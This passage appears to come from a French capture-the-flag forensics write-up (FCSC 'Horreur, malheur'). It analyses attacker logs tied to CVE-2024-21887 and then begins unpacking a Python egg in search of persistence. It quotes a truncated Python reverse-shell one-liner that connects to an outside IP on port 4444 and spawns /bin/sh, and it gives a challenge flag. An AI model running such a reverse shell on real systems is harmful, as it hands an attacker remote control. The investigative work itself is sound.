 ```shell
```
> ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<span style="color:red">"20.13.3.0"</span>,4444));subprocess.call(["/bin/sh","-i


Un revshell avec l'adresse IP de l'attaquant. On est dans le cas d'une RCE, donc de la CVE-2024-21887.

```diff
+flag: FCSC{CVE-2024-21887:20.13.3.0}
```

## Horreur, malheur 3/5 - Simple persistance

>Vous avez réussi à déchiffrer l’archive. Il semblerait qu’il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d’intégrité de l’équipement.
> À l’aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d’une persistance déposée et utilisée par l’attaquant.

Retour sur notre archive.


```shell
$ cd tmp/
$ tar -xvf temp-scanner-archive-20240315-065846.tgz 
home/bin/configencrypt
home/venv3/lib/python3.6/site-packages/cav-0.1-py3.6.egg
$ tree
.
├── bin
│    └── configencrypt
└── venv3
    └── lib
        └── python3.6
            └── site-packages
                └── cav-0.1-py3.6.egg

```
Le fichier bin/configencrypt contient juste le script utilisé pour chiffrer l'archive. 

Le fichier cav-0.1-py3.6.egg est plus intéressant. Mais qu'est-ce qu'un .egg ? https://stackoverflow.com/questions/2051192/what-is-a-python-egg
>The .egg file is a distribution format for Python packages.

> Same concept as a .jar file in Java, it is a .zip file with some metadata files renamed .egg, for distributing code as bundles.

Juste une archive python donc:
```shell
$ file cav-0.1-py3.6.egg
cav-0.1-py3.6.egg: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip cav-0.1-py3.6.egg
```
14 directories, 67 files -> beaucoup de fichiers.
